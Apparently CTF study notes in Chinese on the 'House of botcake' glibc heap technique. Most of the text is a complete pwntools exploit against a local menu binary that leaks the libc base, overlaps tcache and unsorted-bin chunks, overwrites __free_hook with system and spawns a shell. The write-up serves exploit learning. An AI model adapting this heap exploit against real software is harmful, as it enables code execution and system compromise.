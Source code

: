 # House of botcake

同一个chunk释放到tcache和unsorted bin中。释放在unsorted bin的chunk借助堆块合并改变大小。相对于上面的方法，这个方法的好处是一次就可以double free 可以多次使用因为控制同一块内存的chunk大小不同

并且通过多次的malloc来实现这个方法

![image-20250408184650173](./../images/image-20250408184650173.png)

因此这里的代码为

```python
from pwn import *
elf = ELF("./pwn")
libc = ELF("./libc.so.6")
context(arch=elf.arch, os=elf.os)
context.log_level = 'debug'
p = process([elf.path])
def add_chunk(index, size):
    p.sendafter("choice:", "1")
    p.sendafter("index:", str(index))
    p.sendafter("size:", str(size))

def delete_chunk(index):
    p.sendafter("choice:", "2")
    p.sendafter("index:", str(index))
    
def edit_chunk(index, content):
    p.sendafter("choice:", "3")
    p.sendafter("index:", str(index))
    p.sendafter("length:", str(len(content)))
    p.sendafter("content:", content)
def show_chunk(index):
    p.sendafter("choice:", "4")
    p.sendafter("index:", str(index))
    
add_chunk(0, 0x410)
add_chunk(1, 0x10)
delete_chunk(0)
add_chunk(0, 0x410)
show_chunk(0)
libc.address = u64(p.recvuntil('\x7F')[-6:].ljust(8, '\x00')) - 0x3b6be0
info("libc base: " + hex(libc.address))
for i in range(10):add_chunk(i, 0x200)
for i in range(7):delete_chunk(i)

delete_chunk(8)
delete_chunk(7)
add_chunk(0, 0x200)
delete_chunk(8)
add_chunk(7, 0x410)
edit_chunk(7, 'a' * 0x210 + p64(libc.sym['__free_hook']))
add_chunk(0, 0x200)
add_chunk(0, 0x200)
edit_chunk(0,p64(libc.sym['system']))
edit_chunk(2,'/bin/sh\x00')
delete_chunk(2)
# gdb.attach(p)
p.interactive()
```

